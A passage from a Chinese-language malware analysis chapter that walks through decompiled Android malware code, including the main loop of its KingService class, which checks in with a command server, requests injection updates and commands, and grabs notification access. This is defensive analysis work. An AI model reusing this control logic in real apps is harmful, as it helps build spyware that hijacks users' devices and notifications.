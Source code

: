 ```
            this.contextWeakReference.get());
    }
}
```

*清单 4-19：parsePayload 中的代码确认了三个命令的存在。*

这段代码不必要地复杂，因为它只是解析从服务器解密后的响应，来判断检索到的 JSON 对象是否包含 `type` 标签，且其值为 `notif_ic_update`、`get_coms` 或 `inj_update`。我们还没有遇到 `notif_ic_update`，但它似乎没有被使用，因为在最终的 `if` 语句中没有任何分支与此命令相关联。也许这就是我们没有看到它从服务器发送的原因。

这些字符串再次出现在我们在分析过程中多次看到的神秘 `KingService` 类中。如 清单 4-20 所示，使用这些字符串的函数似乎是恶意软件的主执行循环。恶意软件的每一步都在其中列出，并与我们使用 logcat 和 Frida 所观察到的内容相符。

```
public /* synthetic */ void m13xbc1baa29(Handler handler) {
    ...
    if (!UtilGlobal.isInternetConnected(this)) {
        UtilGlobal.Log(TAG, "Network disconnected");
    } else if (UtilGlobal.isNetworkBusy(this) != 0) {
        UtilGlobal.Log(TAG, "Network busy, dropping one step");
        UtilGlobal.flagNetworkAsBusy(
            this, UtilGlobal.isNetworkBusy(this) - 1);
    } else if (!UtilGlobal.checkClientVerification(this) || 
            UtilGlobal.clientVerificationExpired(this, 300000L)) {
        UtilGlobal.Log(TAG, "Client is not verified. Verifying... ");
        new ApiVerifyController().sendRequest(this);
        UtilGlobal.flagNetworkAsBusy(this, 5);
    } else if (UtilGlobal.SettingsRead(
            this, Constants.appInjectTableTag).isEmpty()) {
        apiOperationController.sendRequest(
            this, new ApiSimpleMetricsPayload("inj_update"));
        UtilGlobal.enableInjections(this);
    } else {
        apiOperationController.sendRequest(
            this, new ApiOperationRequestPayload(this, "get_coms"));
    }
    if (UtilGlobal.checkClientVerification(this)) {
        if (!UtilGlobal.checkPermissions(this)) {
            UtilGlobal.Log(TAG, "Permissions revoked!");
        } else if (!UtilGlobal.isNotificationServiceEnabled(this)) {
            UtilGlobal.grantNotificationListenerAccess(this);
            UtilGlobal.millisecondsSleep(15000);
        } else if (!UtilGlobal.isIgnoringBatteryOptimizations(this)) {
            UtilGlobal.startDozeMode(this);
        }
    }
    UtilGlobal.millisecondsSleep(15000);
}
```

*清单 4-20：恶意软件的主要执行循环，位于* KingService *类中*

代码直接显示，恶意软件首先尝试连接到互联网，如果没有网络则放弃。然后它检查网络是否繁忙——即是否有其他服务器命令正在进行。它还检查以下内容：客户端是否已验证，如果已验证，则验证是否尚未过期；是否该发送`inj_update`命令到服务器；是否该发送`get_coms`命令到服务器；是否已授予必要的权限；以及恶意软件是否获得了通知权限。最后，它启动*休眠模式*，这是与电池优化相关的设置。
